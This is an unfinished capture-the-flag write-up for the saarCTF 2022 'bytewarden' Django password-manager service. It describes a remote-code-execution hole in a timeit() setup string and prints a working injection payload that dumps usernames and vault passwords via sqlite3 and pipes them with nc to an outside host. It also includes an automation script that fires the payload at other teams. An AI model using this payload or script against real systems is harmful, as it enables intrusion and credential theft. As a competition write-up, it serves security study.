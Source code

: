 # saarCTF 2022: bytewarden

TODO
Participant: Dosenpfand

## TL;DR / Short Summary

A web challenge, consisting of a Django application that implements a password manager where 2 exploitable vulnerabilities where present.

## Task Description

Provide a task description containing all the basic information:

* Goal of the task
* General type of task (web application, cryptography, ...)
* Available resources (source code, binary-only, network service, ...)
* Any hints provided by the organizers or you might noticed in the task description
* ...

## Analysis Steps
Note: This write-up is only focuses on only one vulnerability of the application. There are at least three other ones, two of them described in the [official saarCTF git repo](https://github.com/saarsec/saarctf-2022/tree/master/bytewarden/exploits) and one of them described in a write-up by my teammates.


TODO: Explain your analysis in detail. Cover all the technical aspects, including the used tools and commands. Mention other collaborators and distinguish contributions.
TODO: where are the flags placed

We started to analyze the service by skimming through the source code files. As none of us had any previous experience with Django it proofed difficult to spot unusual code parts. However, after some digging, we found a suspicious function in the `TimingMiddleware` class in the file [`bytewarden/bytewarden/utils.py`](https://github.com/saarsec/saarctf-2022/blob/1cdae5252e5b702f07833df0104dbe39751d8670/bytewarden/service/bytewarden/bytewarden/utils.py#L39):

```python
def process_template_response(self, request, response):

    if not request.user.is_authenticated or not DEBUG:
        return response

    if not response.get("DebugStats") and request.POST.get("2fa_code"):

        # TODO add in more places
        setup = \
        "from vault.utils import two_factor_match\n"\
        + f"u_code = '{request.user.code}'\n"\
        + f"p_code = '{request.POST.get('2fa_code')}'"

        diff = timeit("two_factor_match(u_code, p_code)", setup = setup, timer = thread_time_ns, number=10000)

        response["DebugStats"] = \
            f"Date and Time: {datetime.now().strftime('%Y-%m-%d, %H:%M:%S')};"\
            + f"Password Check: {diff}ns;"\
            + f"User: {request.user.username}, last login {request.user.last_login}, date joined {request.user.date_joined}"
```

We suspected that this function allowed remote code execution to logged-in users: The [`timeit()`](https://docs.python.org/3/library/timeit.html) function executes the string passed as `setup` parameter as Python code. This string is partly controlled by the user via the HTTP post parameter `2fa_code`.

We deployed a quick and dirty fix by sanitizing the user input to the `setup` parameter to only allow digit characters:

```python
setup = \
"from vault.utils import two_factor_match\n"\
+ f"u_code = '{filter(str.isdigit, request.user.code)}'\n"\
+ f"p_code = '{filter(str.isdigit, request.POST.get('2fa_code'))}'"
```

To exploit the issue ourselves we reused a code snippet that another team was using to steal out flag and therefore ended up in our logs:

```python
';__import__('os').system('sqlite3 db.sqlite3 "select username, vault.password from users_customuser user, vault_password vault where vault.user_id = user.id order by vault.id desc limit 10" | nc 10.32.66.146 10000');'
```

It executes the `sqlite` binary, selects username and vault password sorted by the newest vaults, pipes the resulting output into netcat which sends it to our server, started via `ncat -k -l 10000`. After trying it out by manually inserting the aforementioned exploit into the two factor field of the web form our local netcat received and printed the following data.

```
CuteDifficultLocket3883|EDQ1Nz8cESUoIjQlNQ0+JwVSM2ZUC3sLQAYhN1o2FhtUNypNKxI=
RomanticExultantPtarmigan3034|AS4sMxUBDiAEOTQlNSA/Nyc3OSo6MxBQIXxxX2szVzUTNhkAUzg=
BlueeyedHardtofindPropane1420|ES00Nx4MNCcJIDMtNS43Kiw0OkM7Qg1fClUNCgcpCQEcERtXJTU=
PriceyUnaccountableMud2896|AzMoMR4MFC0gIiImNC8lIikcIjsfK21Lf1wxNTsyDRYkLTAwLBI=
LateChunkyTurtle8543|HyA1NzgcAi0qOBU8MzU9JEt0QnV5AgQnEj8RCBI7MzM6PgEMdkg=
RusticSquareGauntlet7917|ATQyJhIXNDI0IDMsBiAkLT4bJjNfaxxGABkQBS87KRIGNigRIRw=
FineGullibleCarload4076|FSgvNzwBPS8oIy0sAiAjLl44N2B6RFcjPxdXBjoJAlonKSEpMA8=
WetCarelessCappelletti2559|BCQ1ERoGJC8kMjIKIDEhITs0KDsmKlpQBXgZASItCTdTP1YAOT4=
```

TODO: link to source code?
The passwords are saved obfuscated in the database by XORing them with the associated username and then base64 encoding the result. To reverse the obfuscation we used a [Cyberchef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)XOR(%7B'option':'UTF8','string':'CuteDifficultLocket3883'%7D,'Standard',false)&input=RURRMU56OGNFU1VvSWpRbE5RMCtKd1ZTTTJaVUMzc0xRQVloTjFvMkZodFVOeXBOS3hJPQ) and got the flag which we submitted successfully.

**Flag: `SAAR{uwCAAAIAAQDn7GUl3HH5rDs3Ppr7BF9g}`**

As the manual exploit and flag submission is not feasible to do for all opposing teams every tick we tried to automate the process next. We wrote a small Python script to get started.

```python
import sys
import requests
import string
import random

ip = next(iter(sys.argv[1:2]), '10.32.109.2')
timeout = 60
HOST = f'http://{ip}:1984'
letters = string.ascii_lowercase
username_pw = ''.join(random.choice(letters) for i in range(20))

s = requests.Session()
s.post( f'{HOST}/users/signup/', data={"username": username_pw, "password1": username_pw}, verify=False, timeout=timeout)
s.post(f'{HOST}/users/login/', data={"username": username_pw, "password": username_pw}, verify=False, timeout=timeout)
resp = s.get(f'{HOST}/vault/', verify=False, timeout=timeout)
twofa_code = "';__import__('os').system('sqlite3 db.sqlite3 \"select username, vault.password from users_customuser " \
             "user, vault_password vault where vault.user_id = user.id order by vault.id desc limit 10\" | nc " \
             "10.32.66.146 10000');'"
resp = s.post(HOST + "/vault/", verify=False, timeout=timeout, data={'2fa_code': twofa_code})
print(resp.text)
```

It first registers a new user on the opposing teams instance, then logs in and finally submits the vault form including the exploit in the `2fa_code` field. Unfortunately, shortly after we were able to successfully test this first automation step, another team took all instances completely offline that did not yet patch this RCE vulnerability.
TODO: how it finished

TODO: Note, other explots, link to repo

## Vulnerabilities / Exploitable Issue(s)

List (potential) security issues you discovered in the scope of the task and how they could be exploited.

## Solution

Provide a clean (i.e., without analysis and research steps) guideline to get from the task description to the solution. If you did not finish the task, take your most promising approach as a goal.

## Failed Attempts

Describe attempts apart from the solution above which you tried. Recap and try to explain why they did not work.

## Alternative Solutions

If you can think of an alternative solution (or there are others already published), compare your attempts with those.

## Lessons Learned

TODO: Document what you learned during the competition.
TODO: More stressful than jeopardy, hard to fix and exploit in parallel, harder than expected to automate the exploit

## References

TODO: List external resources (academic papers, technical blogs, CTF writeups, ...) you used while working on this task.

* [saarCTF official git repo](https://github.com/saarsec/saarctf-2022/)
* [Python timeit() documentation](https://docs.python.org/3/library/timeit.html)
